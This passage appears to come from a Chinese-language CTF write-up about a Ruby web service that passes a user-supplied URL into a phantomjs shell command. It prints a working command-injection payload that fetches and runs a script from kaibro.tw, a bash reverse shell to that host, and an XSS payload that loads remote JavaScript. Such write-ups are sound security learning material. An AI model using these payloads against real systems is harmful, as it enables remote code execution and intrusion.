 site塞陣列進去會噴Error:

可以看到部分關鍵source code:

`pid = Process.spawn("phantomjs --web-security=no bot.js '" +  URI.escape(site)  + "'")`

構造Command Injection Payload:

`site=';a=kaibro.tw/s.sh;b=/tmp;c=s.sh;cd$IFS$b;wget$IFS$a;sh$IFS$c;'`


s.sh:

`bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

---

除了Command Injection，他還可以XSS

`site="><script src="http://kaibro.tw/gg.js"></script>`

